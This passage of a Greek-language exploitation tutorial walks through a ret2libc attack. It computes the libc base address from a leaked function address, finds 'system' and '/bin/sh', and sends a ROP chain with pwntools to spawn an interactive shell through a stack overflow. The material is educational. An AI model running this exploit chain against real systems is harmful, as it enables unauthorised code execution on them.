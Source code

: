 ## 3.3- Άλλες συναρτήσεις για διαρροή
```python
puts
printf
__libc_start_main
read
gets
```
# 4- Εύρεση βασισμένης διεύθυνσης της βιβλιοθήκης libc & εκμετάλλευση

Σε αυτό το σημείο θα πρέπει να γνωρίζουμε τη βιβλιοθήκη libc που χρησιμοποιείται. Καθώς εκμεταλλευόμαστε ένα τοπικό δυαδικό αρχείο, θα χρησιμοποιήσω απλώς: `/lib/x86_64-linux-gnu/libc.so.6`

Έτσι, στην αρχή του `template.py` αλλάξτε τη μεταβλητή **libc** σε: `libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") #Ορίστε τη διαδρομή της βιβλιοθήκης όταν την γνωρίζετε`

Δίνοντας τη **διαδρομή** προς τη **βιβλιοθήκη libc**, το υπόλοιπο της **εκμετάλλευσης θα υπολογιστεί αυτόματα**.

Μέσα στη συνάρτηση `get_addr` θα υπολογιστεί η **βασική διεύθυνση της βιβλιοθήκης libc**:
```python
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))
```
{% hint style="info" %}
Σημείωση ότι η **τελική βάση διεύθυνσης της libc πρέπει να τελειώνει σε 00**. Αν αυτό δεν ισχύει για εσάς, μπορεί να έχετε διαρρεύσει μια εσφαλμένη βιβλιοθήκη.
{% endhint %}

Στη συνέχεια, η διεύθυνση της συνάρτησης `system` και η **διεύθυνση** του αλφαριθμητικού _"/bin/sh"_ θα υπολογιστούν από τη **βάση διεύθυνσης** της **libc** και την **δοθείσα βιβλιοθήκη libc**.
```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```
Τελικά, η εκμετάλλευση εκτέλεσης του /bin/sh θα προετοιμαστεί και θα αποσταλεί:
```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

#### Interact with the shell #####
p.interactive() #Interact with the conenction
```
Ας εξηγήσουμε αυτό το τελικό ROP.\
Το τελευταίο ROP (`rop1`) τελείωσε καλώντας ξανά την κύρια συνάρτηση, οπότε μπορούμε να **εκμεταλλευτούμε ξανά** την **υπερχείλιση** (γι' αυτό είναι εδώ ξανά το `OFFSET`). Στη συνέχεια, θέλουμε να καλέσουμε το `POP_RDI` δείχνοντας στη διεύθυνση του _"/bin/sh"_ (`BINSH`) και να καλέσουμε τη συνάρτηση **system** (`SYSTEM`) επειδή η διεύθυνση του _"/bin/sh"_ θα περάσει ως παράμετρος.\
Τέλος, καλείται η **διεύθυνση της συνάρτησης exit** έτσι ώστε η διαδικασία να **τερματίσει κανονικά** και να μην παράγεται καμία ειδοποίηση.
